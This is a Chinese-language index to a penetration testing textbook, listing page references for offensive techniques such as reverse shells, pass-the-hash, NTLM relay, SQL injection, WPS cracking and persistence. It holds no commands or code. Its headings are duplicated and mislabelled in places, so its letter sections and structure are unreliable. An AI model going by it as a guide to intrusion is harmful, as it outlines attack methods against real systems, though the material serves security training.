- IP 地址，38–39

**NT LAN Manager (NTLM)**

- 密码哈希，285
- 中继攻击，99

**NTLMv2 哈希**，102

**NVD (国家漏洞数据库)**，82

############### O

**OAuth 联合**，202，205

**云攻击中的对象存储**，205–208

**Objection 工具**

- 说明，389
- SSL 绑定绕过，228

**OCEG 标准**，1

**OISSG (开放信息系统安全组)**，17

**OllyDbg 工具**，390

**全向天线**，132

**中间人攻击**，91

**开放信息系统安全组 (OISSG)**，17

**开放端口**，64

**开源情报 (OSINT) 框架**，16–17

- FOCA，50
- Maltego，45–50
- 概述，44
- 搜索引擎，51–57
- 社交媒体，44–45

**开源安全测试方法手册 (OSSTMM) 方法论**，15–17

**开放漏洞评估扫描器 (OpenVAS) 工具**，390

**OpenID 联合**，205

**OpenSCAP 项目**，81

**openssl 命令**，274

**OpenStego 工具**，390

**OpenVAS (开放漏洞评估扫描器) 工具**，390

**移动设备操作系统**，219–221

**运营控制建议**，339

**OR 运算符**，350

**Oracle 错误**，71

**OSINT**。*请参阅* 开源情报 (OSINT) 框架


################ OSSTMM（开源安全测试方法手册）方法论，15–17

################ OWASP 项目

- DirBuster，69
- 注入攻击，161
- 移动应用安全清单，222
- 移动安全测试指南，222，224
- 移动十大风险，221–222
- 概述，12–14
- OWASP Top Ten，12–13，157
- 风险评级方法论，334
- 敏感数据泄露，183
- 会话管理备忘单，176
- 用户枚举，72
- Web 安全测试指南，13–14
- WebGoat-Legacy 项目，178
- XSS 过滤绕过备忘单，171
- Zed Attack Proxy，390

################ P

- packetforge-ng 工具，380

################ 数据包

- 分析与检查，108–109
- 伪造与解码，109–111

################ Pacu 框架

- 描述，390
- 权限提升，197–202
- S3 存储桶名称，207

- 成对主密钥（PMK），129–131，141
- 成对临时密钥（PTK），129
- PAP（密码认证协议），146
- 传递哈希（PtH）风格攻击，310–311
- 使用 theHarvester 进行被动查询，42

################ 被动侦察

- DNS，36–43
- OSINT，44–50
- 概述，36
- 搜索引擎，51–57
- Web 存档，57

- 密码认证协议（PAP），146

################ 密码

- 攻击概述，99–100
- 暴力破解与字典攻击，100–101
- 云环境，202
- 哈希破解攻击，101–105
- 密码喷射，101，202
- 建议，338–339
- 会话管理，178
- WPA，129，131，135–136

- Patator 工具，391
- Windows 权限提升中的补丁，297–298
- Cookie 的 Path 属性，177
- 路径遍历，184–187
- 路径，通信，26
- 支付卡行业安全标准委员会（PCI-SSC），5–6
- PCRE（Perl 兼容正则表达式），361
- PE（物理与环境保护）出版物，251–253

################ 渗透测试执行标准（PTES）

- 执行摘要，326
- 概述，17
- 严重性评级，334

- “渗透测试指导”文档，327
- 渗透测试人员，合同审查由，24
- 外围屏障，250
- Perl 兼容正则表达式（PCRE），361

################ Perl 语言

- IP 地址修改，373–374
- 概述，361–362
- 反向 Shell，374

- 测试授权，10
- 权限，IAM，203

################ 持久化

- Linux，315–316
- 维持，313–316
- Windows，314–315

- 持久化均衡器，75–76

################ 个人识别码（PIN）

- 移动设备，218
- WPS，127–128，135–136

- 个人身份信息（PII），2–3
- PHI（受保护的健康信息），2–3
- 钓鱼攻击，256–257
- 基于电话的攻击，258–259
- 包含攻击中的 PHP 包装器，188–189
- 物理与环境保护（PE）出版物，251–253

################ 物理攻击

- 证件，266
- 垃圾箱翻找，265
- 指南，250–253
- 概述，249
- 物理渗透工具，266–267
- 问题，269–271
- 复习，268
- 偷窥，265
- 与社会工程学，255–256
- 尾随，266
- USB 投放，265

- 物理控制，建议，340
- 目标选择中的物理位置，20–21
- 物理渗透工具，266–267
- PII（个人身份信息），2–3

################ ping 命令

- 数据渗出，309
- 主机枚举，59–60

################ PIN（个人识别码）

- 移动设备，218
- WPS，127–128，135–136

################ 规划与约定

- 沟通，25–26
- 合同审查，23–25
- 合同与文档，8–10
- 治理、风险与合规，1–6
- 专业精神与诚信，26–30
- 问题，31–33
- 参考资料，33–34
- 复习，30
- 范围与需求，11–19
- 目标选择，19–23
- 测试限制，6–8

- SCADA 系统中的 PLC（可编程逻辑控制器），241
- PMK（成对主密钥），129–131，141
- POC（概念验证）代码，290
- Poisoners-Session.log 文件，102

################ 端口

- 常见端口，63–64
- 转发，307
- Python 扫描器，370–372
- Responder，96
- 扫描，62–63，370–372

################ 约定后活动

- 清理，342
- 客户验收，342
- 常见主题与根本原因，340–341
- 发现与分析，333–337
- 经验教训，342
- 概述，323
- 问题，343–345
- 建议，333–340
- 参考资料，345
- 报告，323–333
- 重测与跟进，343
- 复习，343

################ 后渗透

- 清除痕迹，316–319
- 隐蔽通道与数据渗出，305–309
- 枚举。*参见*枚举
- 横向移动，309–313
- 概述，273
- 持久化，313–316
- 权限提升。*参见*权限提升
- 问题，320–322
- 复习，319–320

- post/windows/manage/migrate 模块，305
- Postman 工具，236–238

################ PowerShell

- AD 用户与计算机枚举，369–370
- 杀毒软件绕过，77–78
- 横向移动，310
- 概述，364–365
- Shell，368–370

- 预共享密钥（PSK），129
- 借口欺骗，254–255
- 物理安全中的预防，250


############### 索引

################ P

**隐私**，2

**提权**，197–202

**权限提升**

- 云攻击，197–202
- Linux，288–295
- 概述，287–288
- Windows，295–305

**程序**，354–355

**Process Monitor**，300

**专业精神与诚信**

- 沟通，27–28
- 概述，26–27

**配置文件，用户**，183，315

**报告中的项目级指标**，331

**SCADA 系统中的可编程逻辑控制器 (PLC)**，241

**移动设备的渐进式应用**，222

**概念验证 (POC) 代码**，290

**MobSF 中的属性列表**，229–230

**确定受保护数据**，2

**受保护健康信息 (PHI)**，2–3

**用于绕过的协议助手**，77

**协议**

- 描述，89
- DoS 攻击，107

**接近卡**，151

**ProxyChains 工具**

- 描述，391
- SSH 隧道，306–308

**psexec 模块**，310–311

**PsExec SysInternals 命令**，310–311

**PSK（预共享密钥）**，129

**PTES（渗透测试执行标准）**

- 执行摘要，326
- 概述，17
- 严重性评级，334

**PtH（传递哈希）风格攻击**，310–311

**PTK（成对临时密钥）**，129

**Python 语言**

- 编码，372
- 交互式 Shell，372
- 概述，360–361
- 端口扫描器，370–372

################ R

**竞争条件**

- Linux，289–291
- 概述，189

**射频通信 (RFCOMM)**，148

**射频识别 (RFID)**

- 证件，132，266
- 概述，150–152

**彩虹表**，104

**RainbowCrack 工具**，104

**无线网络的范围扩展器**，135

**快速生成树协议 (RSTP)**，112–113

**RBAC（基于角色的访问控制）**

- IAM，203
- 建议，339

**RDP（远程桌面协议）**，312

**读取器，RFID**，150

**实时操作系统 (RTOS)**，243

**reaver 工具**

- 描述，391
- WPS 破解，128，135–136

**建议**

- 管理控制，338–339
- 发现，333–337
- 运营控制，339
- 概述，337
- 物理控制，340
- 技术控制，338

**Recon-ng 框架**

- 描述，391–392
- 使用方法，40–42

**侦察**。*参见* 主动侦察；被动侦察

**记录，DNS**，39

**反射型跨站脚本**，170

**regedit 命令**，281，284

**区域互联网注册机构 (RIR)**，36–39

**注册端口**，63

**注册表**

- LSA，284
- 持久化，314–315
- SAM 文件，281–282
- 未加引号的服务路径，300–302，304

**法规与合规考量**

- 合规概念，2–3
- GDPR，4–5
- 概述，2
- PCI-DSS，5–6
- 测试与报告，3–4

**报告中的修复**，330–331

**远程桌面协议 (RDP)**，312

**远程文件包含 (RFI)**，188

**远程过程调用 (RPC)**，311–312

**SCADA 系统中的远程终端单元 (RTU)**，241

**无线网络的中继器**，135

**报告中的报告级指标**，331

**报告**

- 附录，332
- 证明函，333
- 受众，324–325
- 合规考量，3–4
- 结论，331
- 内容概述，325–326
- 执行摘要，326
- 发现与修复，330–331
- 方法论与攻击叙述，327–330
- 指标与度量，331
- 概述，323–324
- 范围细节，327
- 存储与安全分发，332–333

**网络攻击研究**，114–119

**漏洞研究来源**

- CVE，82–83
- CWE，83–84
- 概述，82

**Responder-Session.log 文件**，102

**Responder 工具**

- 描述，392
- 哈希收集，95–97，102
- 主机枚举，61
- WPAD 攻击，97–99

**受限 Shell，升级**，294–295

**重测与跟进**，343

**逆向测试**，16

**反向 Shell**

- Bash，365
- 创建，315
- 描述，308
- Perl，374
- PowerShell，368

**RFCOMM（射频通信）**，148

**RFI（远程文件包含）**，188

**RFID（射频识别）**

- 证件，132，266
- 概述，150–152

**rfkill unblock all 命令**，133

**RIPE NCC 区域注册机构**，36

**RIR（区域互联网注册机构）**，36–39

**风险评级方法论**，334

**测试人员风险**，30

**RoE（交战规则）**

- 云，195
- 概述，10

**流氓接入点**

- 描述，392
- 概述，146–147

**基于角色的访问控制 (RBAC)**

- IAM，203
- 建议，339

**角色**

- IAM，203
- 提权，197，199

**STP 攻击中的根桥**，112

**根本原因**，340–341

**移动设备 Root 权限获取**，216–217

**轮询负载均衡器**，75–76

**RPC（远程过程调用）**，311–312

**rpcinfo 工具**，117

**RSTP（快速生成树协议）**，112–113

**RTOS（实时操作系统）**，243

**RTU（SCADA 系统中的远程终端单元）**，241

**Rubeus 工具**，287

**Ruby 语言**，362–363

**基于规则的密码攻击**，144

**交战规则 (RoE)**

- 云，195
- 概述，10

################ S

**s3\_\_bucket\_finder 模块**，207

**SAE（对等实体同时认证）密钥交换**，130

**SAM（安全账户管理器）**，281–284


############### Samba 攻击
116–119

############### SAML (安全断言标记语言)
################ 认证
197

################ 联邦
205

############### SCADA (数据采集与监视控制) 系统
240–242

############### scanner.provider.injection 命令
236

############### scanner/ssh/ssh_login_pubkey 模块
276–277

############### 扫描器，Python
370–372

############### 扫描
################ ARP
60–61

################ 半开放
65–66

################ 端口
62–63

############### TCP
64–65

################ UDP
66–68

################ 无线攻击
132–133

############### SCAP (安全内容自动化协议) 工具
################ 描述
392

################ 策略合规
81

############### Scapy 工具
109–110

############### 影响力中的稀缺性因素
255

############### 持久化中的计划任务
314–315

############### schelevator 模块
298–299

############### schtasks 命令
314

############### 范围与需求
################ 环境考量
18–19

################ 限制
7

################ 概述
11

################ 标准
11–18

############### 报告中的范围细节
327

############### Scout Suite 工具
################ 描述
392

################ IAM
203–205

############### 抓取
68

############### Script-Block Logging 绕过
78

############### SDK
*参见* `software development kits (SDKs)`

############### SDLC (软件开发生命周期)
################ 建议
339

############### 测试
12, 14

############### SDP (服务发现协议)
148

############### 搜索引擎
################ Censys
53–55

################ GitHub
51–52

################ Google Dorks
52

################ Google Hacking Database
52

################ 概述
51

################ Shodan
55–57

############### 搜索顺序劫持
299–300

############### 盲目 SQL 注入攻击的搜索
164

############### SearchSploit 工具
392

############### 密钥管理建议
338

############### Cookie 中的 Secure 属性
178

############### 报告的安全分发
332–333

############### Secure Enclave (安全飞地)
218

############### Secure Shell (SSH)
################ 描述
394

################ 文件枚举
274–277

################ 隧道
306–308

############### Secure Sockets Layer (SSL)
## 绕过绑定
228

################ 洪水攻击
106

################ 敏感数据泄露
187

############### 安全账户管理器 (SAM)
281–284

############### Security Assertion Markup Language (SAML)
################ 认证
197

################ 联邦
205

############### Security Content Automation Protocol (SCAP) 工具
################ 描述
392

################ 策略合规
81

############### 802.11 无线中的安全
127–131

############### 安全人员，合同审查
24

############### Security Research Device (SRD，安全研究设备)
218

############### Security Support Provider Interface (SSPI，安全支持提供程序接口)
285

############### Security Support Providers (SSPs，安全支持提供程序)
285

############### Security Test Audit Report (STAR，安全测试审计报告)
15–16

############### SQL 中的 SELECT 命令
162, 167

############### 半越狱
217

############### 半非完美越狱
217

############### JavaScript 中的分号 (;)
363

############### 敏感数据，泄露
182–184, 187

############### Service Discovery Protocol (SDP，服务发现协议)
148

############### 服务识别
################ 常见端口和协议
63–64

################ 半开放扫描
65–66

################ 端口扫描方法
62–63

################ TCP 扫描
64–66

################ UDP 扫描
66–68

################ Web 目标识别
68

############### 服务级别协议 (SLAs)
25

############### Windows 提权中的服务路径
300–305

############### 服务主体名称 (SPNs)
286–287

############### 服务集标识符 (SSIDs)
################ AP
125–127, 133

################ 文档
19

################ 冒充
147

################ 侦测
132

############### 服务
################ Android 应用程序
221

################ 描述
89

################ Responder
96

############### 会话劫持
147

############### Session Initiation Protocol (SIP，会话发起协议)
259

############### 会话管理备忘单
176

############### 会话管理测试
176–180

############### SET (Social-Engineer Toolkit，社会工程学工具包)
################ 描述
392–393

################ 使用
260–264

############### 严重性级别
################ 发现
334

################ 漏洞扫描
80

############### Linux 提权中的 Shell 逃逸
292

############### Shell
################ 隐蔽信道
308

################ PowerShell
368–370

################ 受限
294–295

################ 升级
294–295, 372

############### Shodan 工具
################ 描述
393

################ 概述
55–57

############### 肩窥
265

############### SQL 中的 SHOW 命令
162

############### showmount 脚本
116

############### 侧信道云中心攻击
211

############### 移动设备旁路加载
216

############### 移动设备模拟器
217–218

############### Simultaneous Authentication of Equals (SAE，对等实体同时认证) 密钥交换
130

############### SIP (Session Initiation Protocol，会话发起协议)
259

############### 站点地图文件
70

############### SLAs (服务级别协议)
25

############### smbclient 命令
296–297

############### SMiShing 攻击
258

############### 短信攻击
258

############### Snow 工具
393

############### SoC (片上系统)
218

############### Social-Engineer 博客
382

############### Social-Engineer Toolkit (SET，社会工程学工具包)
################ 描述
392–393

################ 使用
260–264

############### 社会工程学
################ 对策
267–268

################ 电子邮件攻击
256–258

################ 影响方法
255

################ 概述
249

################ 钓鱼攻击
256

################ 基于电话的攻击
258–259

################ 与物理攻击
255–256

################ 借口和冒充
254–255

################ 问题
269–271

################ 参考
271

################ 复习
268

################ 工具
260–264

################ Web 攻击
259

############### 社交媒体
44–45

############### 影响力中的社会认同因素
255

############### socket 命令
374

############### SOCKS 连接
307–308

############### 软件开发工具包 (SDKs)
################ Android
380

################ 云攻击
211–212

################ 文档
20

################ 模拟器
217

################ 移动应用程序
222

############### 软件开发生命周期 (SDLC)
################ 建议
339

############### 测试
12, 14

############### SolarWinds 入侵事件
202

############### Sonic Visualiser 工具
393

############### SOWs (工作说明书)
9–10

############### 垃圾邮件
150


############### 生成树协议 (STP)

111–113

############### 定向钓鱼攻击

257

############### 专用系统

################ 移动设备

*参见* 移动设备

################ 概述

215

################ 问题

244–247

################ 复习

243

################ 虚拟化和容器化系统

239–240

############### Spectre 攻击（幽灵攻击）

211

############### 爬行/蜘蛛爬取

68

############### SPN（服务主体名称）

286–287

############### 欺骗攻击

################ ARP

18

################ 来电显示

258–259

################ DNS

91–94

################ 交换机

113

################ 工具

382

############### Spooftooph 工具

393

############### 广撒网式漏洞利用

110

############### Web 内容枚举中的 SQL 错误

71

############### SQL 注入攻击

161

################ 盲注

163–166

################ 基于错误

163

################ 注入来源

161–163

################ 识别

168

################ 堆叠查询

167

################ 联合查询

167

############### sqlmap 命令

165–166

############### SQLmap 工具

393

############### Squiblydoo 攻击

314

############### SRD（安全研究设备）

218

############### ssh-keygen 命令

276

############### ssh_login 模块

274–275

############### SSH（安全外壳协议）

################ 说明

394

################ 文件枚举

274–277

################ 隧道技术

306–308

############### ssh/ssh_login_pubkey 模块

276

############### ssh_to_meterpreter 模块

275

############### SSID

*参见* 服务集标识符 (SSID)

############### SSL（安全套接字层）

################ 绕过证书绑定

228

################ 洪水攻击

106

################ 敏感数据泄露

187

############### SSPI（安全支持提供程序接口）

285

############### SSP（安全支持提供程序）

285

############### SQL 注入攻击中的堆叠查询

167

############### 利益相关者，合同由其审核

23–24

############### STAR（安全测试审计报告）

15–16

############### 持久化中的启动位置

314

############### 工作说明书 (SOW)

9–10

############### Android 测试中的静态分析

231–236

############### Steghide 工具

394

############### 粘滞位

292

############### 存储

################ 云攻击

205–208

################ 报告存储

332–333

############### 存储型跨站脚本攻击

170

############### STP（生成树协议）

111–113

############### 应用程序和协议压力测试

105–108

############### 字符串运算符

350–351

############### 结构化查询语言 (SQL)

*参见* SQL 注入攻击

############### Linux 提权中的 sudo 配置

293–294

############### Linux 提权中的 SUID/SGID 可执行文件

291–292

############### 监控与数据采集 (SCADA) 系统

240–242

############### SCADA 系统中的监控工作站

241

############### 目标选择的支持资源

20

############### 《工业控制系统环境安全工具调查》

242

############### 交换机欺骗

113

############### switch 语句

348

############### 对称密钥加密

103

############### SYN 洪水攻击

65

############### SYN 扫描

64–66

############### Syslog 协议

110

############### 系统配置枚举

277

############### 系统加固建议

338

############### SYSTEM 级权限

304–305

############### 片上系统 (SoC)

218

############### 系统端口

63

############### SYSVOL 策略

279–281

############### T

############### 标签

################ HTML

171

################ 列表

353

################ RFID

150

############### 尾随进入

266

############### 并行测试

16

############### 目标选择

19–23

############### tasklist 命令

277

############### Tastic RFID Thief 设备

152

############### TCP

*参见* 传输控制协议 (TCP)

############### TCS（电话控制协议）

148

############### 技术控制建议

338

############### 技术人员作为报告受众

324

############### 电话控制协议 (TCS)

148

############### 临时密钥 (TK)

129–130

############### Tenable Nessus 工具

################ 凭据

79–80

################ 漏洞扫描

78–79

############### 拧力扳手

266–267

############### 三元语句/运算符

348

############### 测试

################ 802.11 无线

131–132

################ Android

230–238

################ 合规性考量

3–4

################ iOS

224–230

################ 移动设备

216–218

################ 测试授权

10

############### 测试限制

################ 允许和禁止的测试

8

################ 资产范围

7

################ 概述

6

################ 基于时间的

6–7

################ 工具

7–8

############### 有绑定的越狱

217

############### tftp-enum 脚本

73

############### TGS（票据授予服务）

286

############### TGT（票据授予票据）服务器

286

############### 开放组织锁匠协会 (TOOOL)

267

############### Wayback Machine（时光机/网页回溯机）

57

############### theHarvester 工具

################ 说明

394

################ DNS 侦察

42–43

############### 第三方

################ 应用程序

219

################ 证明/认证

333

################ 托管目标

22–23

################ IP 范围

19

################ 报告受众

325

############### 多线程

370–371

############### Kubernetes 威胁矩阵

208

############### TCP 中的三次握手

64–65

############### 票据授予服务 (TGS)

286

############### 票据授予票据 (TGT) 服务器

286

############### 基于时间的限制

6–7

############### 合同审核中的时间管理

24

############### 时间限制

339

############### 时间戳篡改

317–319

############### TinEye 工具

394

############### TK（临时密钥）

129–130

############### Tomcat Manager Servlet

181

############### 报告语气

326

############### 工具限制

7–8

############### 工具与代码分析

################ Bash Shell

358–360, 365–368

################ 类

356

################ 数据结构

351–354

################ 下载器

374–375

################ 示例

357–358

################ 函数

355–356

################ JavaScript

363–364

################ 库

357

################ 逻辑结构

347–351

################ 概述

347

################ Perl

361–362, 373–374

################ PowerShell

364–365, 368–370

################ 过程/子程序

354–355

################ Python

360–361, 370–372

################ 问题

376–377

################ 复习

375

################ Ruby

362–363

################ 工具清单

379–396

############### TOOOL（开放组织锁匠协会）

267

############### 清理痕迹

316–319

############### 培训建议

339

############### 传输控制协议 (TCP)


############### 索引

################ F

- 洪水攻击，106
- Nmap 扫描，108–109
- 端口扫描，62
- 扫描概述，64–66
- RFID 中的应答器，150
- 遍历，目录和路径，184–187
- 树，352
- 触发器，通信，26
- 特洛伊木马，313
- truffleHog 工具
  - 凭证访问，196
  - 说明，394
- 社会工程学攻击中的信任，254
- NAC 控制中的信任关系，114
- 来电显示真实法案，258
- 隧道技术，SSH，306–308

################ U

- Ubertooth 平台，149
- UDP。*请参阅* 用户数据报协议 (UDP)
- UID（唯一标识符）密钥
  - 移动设备，218
  - NFS，118–119
- 无人值守安装，287
- SQL 注入攻击中的联合查询，167
- 唯一 ID (UID) 密钥
  - 移动设备，218
  - NFS，118–119
- 美国计算机应急响应小组 (US-CERT)，82
- 未加引号的服务路径，300–305
- 非完美越狱，217
- 升级
  - 交互式 Shell，372
  - 受限 Shell，294–295
- 影响力中的紧迫性因素，255
- US-CERT（美国计算机应急响应小组），82
- USB 投放攻击，265
- 用户数据报协议 (UDP)
  - 洪水攻击，106
  - NFS，118
  - 端口扫描，62
  - 扫描概述，66–68
- 用户配置文件，183
- 用户
  - 主动侦察，71–73
  - 枚举，71–73，277–278
  - IAM，203
  - 配置文件，315
  - 培训建议，339
- `/usr/share/responder` 目录，102，143

################ V

- 强制休假，339
- Vanhoef, Mathy，145
- 垂直权限提升，288
- 视频监控建议，340
- Viproy 工具，259
- 虚拟局域网 (VLAN) 跳跃，113–114
- 虚拟系统，239–240
- `visudo` 命令，294
- 基于容量的攻击
  - 以云为中心，209
  - DDoS，107
- 卷影复制 (VSS) 工具，281
- vsFTPd 工具，115
- 漏洞，常见主题和根本原因，341
- 漏洞扫描与分析
  - 合规性与配置审计，81
  - 凭证扫描与非凭证扫描，79–81
  - 信息收集。*请参阅* 信息收集与漏洞扫描
  - 概述，78–79
  - 漏洞研究来源，82–84

################ W

- w3af 工具，395
- Wafalyzer 工具，74
- WAFs (Web 应用防火墙)
  - 绕过，76–77
  - 检测，74
- wafw00f 工具，74
- Wapiti 工具，395
- 战争驾驶，133
- wash 工具，134–136
- 水坑攻击，91
- 弱访问控制，181–182
- Web 和数据库攻击，157
  - 认证与会话管理，173–180
  - 数据泄露与不安全配置，180–187
  - 目录和路径遍历，184–187
  - 包含，188–189
  - 注入。*请参阅* 注入攻击
  - OWASP Top Ten，157
  - 问题，190–193
  - 竞争条件，189
  - 复习，189–190
  - 敏感数据泄露，182–184，187
  - 弱访问控制，181–182
- Web 应用防火墙 (WAFs)
  - 绕过，76–77
  - 检测，74
- Web 应用清单，222
- 报告中的 Web 应用测试，329
- 移动设备的 Web 应用程序，222
- Web 存档，57
- Web 内容枚举
  - 分析错误，70–71
  - 暴力破解，69
  - 爬取与抓取，68
  - 手动检查，69–70
- Web 安全测试指南，13–14
- Web 目标识别，68
- WebGoat-Legacy 项目，178
- WEP (有线等效保密)
  - 破解，136–141
  - 概述，128–129
- 鲸钓攻击，257
- whois 工具
  - 说明，395
  - DNS 信息，37–38，41
- Wi-Fi Protected Access (WPA)
  - 破解，141–144
  - Dragonblood 攻击，145
  - 概述，129–131
- Wi-Fi Protected Setup (WPS)
  - 破解，134–136
  - 概述，127–128
- Wifite 工具，395
- WiGLE (无线地理位置引擎)，133，395–396
- WinDbg 工具，396
- Windows Internet Name Service (WINS)，90
- Windows Management Instrumentation Command line (WMIC) 实用程序
  - 横向移动，310
  - 缺失补丁，297–298
  - 未加引号的服务路径，301
- Windows Management Instrumentation (WMI)，298
- Windows 持久化，314–315
- Windows 权限提升
  - DLL 搜索顺序劫持，299–300
  - 内核利用，295–299
  - 缺失补丁，297–298
  - msfvenom 和 smbclient，296–297
  - psexec 模块，295
  - schelevator，298–299
  - 未加引号的服务路径，300–305
- Windows 代理自动发现协议 (WPAD) 攻击，97–99
- Windows Remote Management (WinRM) 协议，312–313
- Windows System Image Manager，287
- WINS (Windows Internet Name Service)，90
- 有线等效保密 (WEP)
  - 破解，136–141
  - 概述，128–129
- 无线和 RF 攻击
  - 802.11 无线。*请参阅* 802.11 无线
  - 蓝牙，148–150
  - 问题，153–156
  - 参考资料，156
  - 复习，153
  - RFID 和 NFC，150–152
  - 目标选择，19
- 无线地理位置引擎 (WiGLE)，133，395–396
- 无线局域网 (WLANs)，125
- Wireshark 工具
  - 说明，396
  - 抓包，126–127，147
  - 包检查，108–109
  - PCAP 数据，134，140
  - STP，113
- WLANs (无线局域网)，125
- WMI (Windows Management Instrumentation)，298
- WMIC (Windows Management Instrumentation Command line) 实用程序


############### 索引

################ L

- 横向移动，310

################ M

- 缺失补丁，297–298

################ U

- 未加引号的服务路径，301

################ W

- 用于暴力破解登录页面的字典，173–176

################## WPA (Wi-Fi Protected Access)

- 破解，141–144
- Dragonblood 攻击，145
- 概述，129–131

################## WPAD (Windows Proxy Auto-Discovery Protocol) 攻击

- 97–99

################## WPS (Wi-Fi Protected Setup)

- 破解，134–136
- 概述，127–128

################## WPScan 工具

- 396

################## X

- X11 转发，307
- XCode，217

################### XML (Extensible Markup Language) 数据格式

- 描述，353
- 洪水攻击，106

################### 移动设备的 XN (Execute Never) 功能

- 219

################### XSS (跨站脚本)

- 注入攻击，169–171
- 日志注入，109
- XSS 过滤器绕过备忘单，171

################## Z

################### Zed Attack Proxy (ZAP)

- 390


